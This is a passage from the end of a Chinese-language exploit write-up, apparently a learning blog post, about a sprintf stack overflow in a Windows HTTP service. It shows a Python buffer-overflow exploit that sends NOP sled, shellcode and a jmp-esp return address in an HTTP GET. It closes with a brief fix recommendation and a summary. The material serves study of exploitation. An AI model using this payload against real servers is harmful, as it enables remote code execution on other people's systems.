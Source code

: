 ```python
payload += '\x90'*(4073-len(buf)) #junk code
payload += buf #shellcode
payload += '\x09\x21\x76\x76' #0x76762109,'jmp esp' is from 'user32.dll'
payload += '\x90'*12 #junk code
payload += '\xe9\xec\xfe\xff\xff' #jump higher addr = shellcode;offset = -(8+len(buf)+4+12+5) = -276 = 0xfffffeec

s = socket(AF_INET,SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send('GET '+payload+' HTTP/1.0\r\n\r\n')
print 'done.'
s.close()
```
***
## 修复建议
应当使用安全的函数进行字符串拼接。
***
## 漏洞总结
这种栈溢出的漏洞往往是因为错误的或不安全的使用函数造成的，这个程序正是由于未安全的使用`sprintf`函数造成的溢出。关于漏洞利用方面，我这里使用了攻击seh和覆盖返回地址的方式，但是并没有对windows下的安全机制进行明确的绕过说明，主要是因为还在初步学习漏洞利用的技巧，而且在不同的系统环境下exp是否有效并不能保证。
***
## 参考
> k0shl大佬的视频[https://www.ichunqiu.com/qad/course/56127](https://www.ichunqiu.com/qad/course/56127)